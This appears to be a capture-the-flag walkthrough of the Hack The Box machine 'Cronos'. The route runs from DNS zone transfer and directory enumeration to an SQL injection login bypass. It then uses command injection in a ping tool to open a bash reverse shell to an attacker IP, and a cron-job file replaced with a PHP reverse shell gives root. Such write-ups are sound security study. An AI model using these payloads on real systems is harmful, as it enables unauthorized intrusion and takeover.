 # Cronos

### Machine Info
![](screenshots/cronos.png)

#### Nmap
![](screenshots/nmap.png)

#### DNS
Zone transfer:
![](screenshots/dns_axfr.png)

Add `admin.cronos.htb, ns1.cronos.htb, cronos.htb` into `/etc/hosts`.

#### HTTP (Port 80)

`10.10.10.13` Index Page:
![](screenshots/index.png)
Tried `gobster` but got nothing interesting.


##### cronos.htb

Index Page:
![](screenshots/cronos_htb.png)

###### Gobuster:
![](screenshots/cronos_htb_gobuster.png)



##### admin.cronos.htb
Index Page:
![](screenshots/cronos_admin.png)

I tried to login with common admin credential but nothing worked.

###### Gobuster
I tried to access pages but every url just redirected me to login page.
![](screenshots/cronos_admin_gobuster.png)


###### SQL Injection

From the login page, I tried `SQL Injection` with UserName=admin'; # and I could bypass the authentication:

![](screenshots/cronos_welcome.png)


From the page, there was a tool for `ping` and I tested:

![](screenshots/cronos_welcome_ping.png)

![](screenshots/ping_result.png)

After I checked it's working I checked source code:
![](screenshots/ping_source.png)

It looks like it can just execute ping command without checking input data.

##### Exploit

`whoami` command execution:
![](screenshots/ping_whoami.png)

As I expected I can check the result of `whoami` command and we are user `www-data`.


Reverse shell command execution:
```
10.10.14.37; bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'
```

`nc` listener:
![](screenshots/low_shell.png)


#### Privilege Escalation

First I just run simple linux enumeration script `lse.sh` and found one cronjob that I can use to exploit:
![](screenshots/cronjob.png)

I checked the permission of file `artisan` and user `www-data` can remove and write new file in that directory:
![](screenshots/permission.png)

##### Exploit

Replace `/var/www/laravel/artisan` to malicious php-reverse-shell script:
```
# Change port and ip after copy
❯ cp /usr/share/webshells/php/php-reverse-shell.php ./   
❯ mv php-reverse-shell.php artisan
```
From victim machine download and just wait a minute.

`nc` listener on attacking side:
![](screenshots/root_shell.png)

And you can get `root.txt` :)
